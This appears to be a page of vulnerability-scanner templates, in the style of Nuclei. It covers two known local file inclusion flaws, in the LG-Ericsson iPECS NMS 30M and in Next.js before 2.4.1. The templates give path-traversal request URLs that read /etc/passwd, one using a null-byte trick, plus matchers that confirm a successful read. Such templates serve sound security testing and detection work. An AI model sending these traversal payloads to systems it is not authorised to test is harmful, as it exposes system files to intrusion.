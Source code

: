 # LG-Ericsson iPECS NMS 30M - Local File Inclusion

## Description

- Ericsson-LG iPECS NMS 30M allows local file inclusion via ipecs-cm/download?filename=../ URIs.
- severity - high
- tags - cve,cve2018,ericsson,lfi,traversal,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/ipecs-cm/download?filename=../../../../../../../../../../etc/passwd&filepath=/home/wms/www/data
- {{BaseURL}}/ipecs-cm/download?filename=jre-6u13-windows-i586-p.exe&filepath=../../../../../../../../../../etc/passwd%00.jpg

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---

# Nextjs \<2.4.1 - Local File Inclusion

## Description

- ZEIT Next.js before 2.4.1 is susceptible to local file inclusion via the /\_next and /static request namespace, allowing attackers to obtain sensitive information.
- severity - high
- tags - cve,cve2017,nextjs,lfi,traversal

## Requests

- Method - GET

### URL

- {{BaseURL}}/\_next/../../../../../../../../../../etc/passwd
